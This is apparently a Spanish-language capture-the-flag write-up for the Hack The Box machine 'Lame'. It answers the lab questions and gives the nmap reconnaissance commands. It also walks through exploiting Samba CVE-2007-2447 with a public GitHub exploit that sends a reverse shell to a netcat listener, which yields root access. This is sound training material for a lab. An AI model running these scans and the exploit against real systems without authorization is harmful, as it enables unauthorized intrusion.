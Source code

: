 1)¿Cuántos de los 1000 puertos TCP principales de nmap están abiertos en el host remoto?
	4
	*Puertos:* 21,22,139,445
	Esto lo vimos con el comando `nmap --top-ports 1000 --open -sS -vvv -n -Pn 10.10.10.3 -oG allPorts` (le saque el `--min-rate 5000` por que no me aparecian todos los puertos)

2)¿Qué versión de VSFTPd se está ejecutando en Lame?
	2.3.4

3)Hay un famoso backdoor en VSFTPd versión 2.3.4, y un módulo Metasploit para explotarlo. ¿Funciona ese exploit aquí?
	No

4)¿Qué versión de Samba se está ejecutando en Lame? Indique los números hasta "-Debian" pero sin incluirlo.
	3.0.20

5)¿Qué CVE de 2007 permite la ejecución remota de código en esta versión de Samba a través de metacaracteres de shell que implican la función SamrChangePassword cuando la opción «username map script» está habilitada en smb.conf?
	CVE-2007-2447

6)La explotación de CVE-2007-2447 devuelve un intérprete de comandos como ¿qué usuario?
	root

*Las dos preguntas anteriores eran las flags*. Las siguientes preguntas son adicionales

9)Exploraremos un poco más allá de conseguir un shell root en la caja. Mientras que la escritura oficial no cubre esto, puedes mirar la escritura de 0xdf para más detalles. Con una shell de root, podemos ver por qué falló el exploit VSFTPd. Nuestro escaneo nmap inicial mostró cuatro puertos TCP abiertos. Ejecutando netstat -tnlp muestra muchos más puertos escuchando, incluyendo algunos en 0.0.0.0 y la IP externa de la caja, por lo que deberían ser accesibles. ¿Qué debe estar bloqueando la conexión a estos puertos?
	firewall

10)Cuando se activa el backdoor VSFTPd, ¿qué puerto empieza a escuchar?
	6200

11)Cuando se activa el backdoor VSFTPd, ¿el puerto 6200 empieza a escuchar en Lame?
	yes

##### Las preguntas adicionales por lo que entiendo segun el [writeup de 0xdf que nos da htb](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) dice que si no estamos como root el firewall nos bloquea la mayoria de los puertos


-----------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.3
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.10.3 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN target
```

![[Lame1.png]]
![[Lame2.png]]

![[Lame3.png]]
![[Lame4.png]]
*TTL:* Maquina Linux
*Puertos:*
`21` FTP
`22` SSH
`445` SMB

-------
# Escaneo con [[NMAP Scripts]]

```
nmap --script="smb-vuln*" -p445 10.10.10.3 -oN smbScan
```

![[Lame5.png]]
No nos aporta ninguna informacion relevante

-------
# Explotacion [[CVE-2007-2447]]

#### No encontramos una enumeracion valida para este exploit, ya que nmap no enumera este cve, y haciendo pruebas con otros comandos tampoco pudimos

[Exploit hecho por amriunix](https://github.com/amriunix/CVE-2007-2447)(Para python2.7)

Clonamos el repositorio en nuestra maquina ``git clone https://github.com/amriunix/CVE-2007-2447.git``
Instalamos la libreria pysmb con el comando ``pip install pysmb``

Entramos a la carpeta del repositorio y solamente nos falta ejecutar el exploit mientras estamos en escucha con [[nc -nlvp 443]]
```
python2.7 usermap_script.py IpMaquinaVictima PuertoMaquinVictima IpDeNuestraMaquina PuertoDeNuestraMaquina
python2.7 usermap_script.py 10.10.10.3 445 10.10.16.10 443
```
![[Lame10.png]]

Una vez ejecutado el exploit ya estamos adentro como *root*
#### Hacemos un [[Tratamiento de la TTY]]

y nada mas nos queda catear las flags para terminar la maquina
![[Lame8.png]]